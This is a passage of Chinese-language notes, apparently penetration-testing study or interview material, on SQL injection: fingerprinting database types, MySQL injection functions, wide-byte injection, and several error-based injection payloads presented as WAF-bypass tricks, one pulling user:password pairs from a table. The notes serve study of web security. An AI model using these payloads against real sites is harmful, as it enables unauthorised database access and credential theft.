php：Mysql，PostgreSql

java：Oracle，Mysql

（2）从默认端口判断。

Mysql: 3306

Oracle :1521

SQL Server :1433

PostgreSQL :5432

Access : 文件型数据库没有默认端口

（3）从页面报错判断。

Oracle: ORA-00933:SQLcommand not properly ended

SQL Server: Msg 170,level 15, State 1,Line 1

Mysql: you have an error in your SQL syntax

（4）从特有表判断

几个数据库都可以使用 payload
    
    http://127.0.0.1/test.php?id=1 and (select count(*) from 特有表)>0 and 1=1

Oracle: sys.usr_tables

Mysql: information_schema.tables

SQL Server: sysobjects

Access: msyobjects

确认注入点之后把特有表带进去看看哪个不报错就是哪个。

#### mysql 注入的常用函数有哪些

查询字段用 order by，联合查询用 union select

延时盲注用 sleep

报错注入一般用 updatexml 和 extractvalue，用 floor 也可以

#### 冷门报错注入函数绕 waf

    1' and (select 1 from (select count(*),concat((select schema_name from information_schema.schemata limit 0,1),0x2b,floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1

    and multipoint((select * from(select * from(select version())a)b))

    and geometrycollection((select * from(select * from(select version())a)b))

    or exp(~(select * from (select (concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e))) as asd))

#### 宽字节注入的原理和条件是什么

如果网站在用户输入的引号前面加了反斜杠进行转义，而网站使用 gbk 编码，则 sql 注入点符合宽字节注入的条件。
